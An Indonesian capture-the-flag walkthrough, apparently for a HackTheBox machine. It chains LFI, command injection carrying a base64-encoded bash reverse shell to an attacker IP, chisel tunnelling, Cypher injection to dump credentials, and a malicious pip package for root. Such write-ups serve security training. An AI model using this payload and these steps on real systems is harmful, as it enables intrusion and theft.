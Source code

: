 ## Solver
Add onlyforyou.htb ke host
lakukan curl -iL onlyforyou.htb didapatkan redirect location ke only4you.htb
lakukan subdomain enumeration, didapatkan subdomain beta.only4you.htb
Akses website beta, terdapat fitur download source code.
Lakukan review source code, didapatkan endpoint /download vulnerable dengan LFI
Lakukan read file /etc/nginx/sites-available/default, didapatkan lokasi web root domain dan subdomain beta
Read app.py dari main domain only4you.htb didapatkan process email dengan import form.py
Read form.py ternyata melakukan command execution process, vulnerable dengan RCE
Kirim POST name=banua&email=banua@email.com|echo+'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQwLzEyMzQgMD4mMQo='|base64+-d|bash&subject=Pentest&message=Pentest ke / pada domain only4you.htb
#L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQwLzQ0NDQgMD4mMQo= 4444

Dapat reverse shell
Check netstat -tulpn didapatkan port active seperti 3000, 8001 dan lainnya.
coba curl port 8001 ternyata jalan service web
port forwarding dengan chisel untuk akses di local machine

Download chisel versi 1.5.2 karena victim memakai libc versi lama

./chisel client 10.10.16.40:5555 R:8001:127.0.0.1:8001 <= Pada victim
./chisel server -p 5555 --reverse <= Pada mesin attacker

login dengan default credentials admin:admin

search is vulnerable to Cypher Injection
use cyphermap to dump properties and key values

./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=df672086-a714-43a0-a44f-c4663f3ffde4;"  -s Sarah -P user -K password,username

didapatkan password hash
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:ThisIs4You

Login user john dengan password ThisIs4You

Vertical Privesc

sudo -l

Create exploit malicious python package, output exploit akan jadi \*.tar.gz

Port Forwarding port 3000

Login user john

Change test repository from private to public

Upload \*tar.gz

sudo /usr/bin/pip3 download link raw file \*.tar.gz dalam repository test tersebut

/bin/bash -p and pwned!



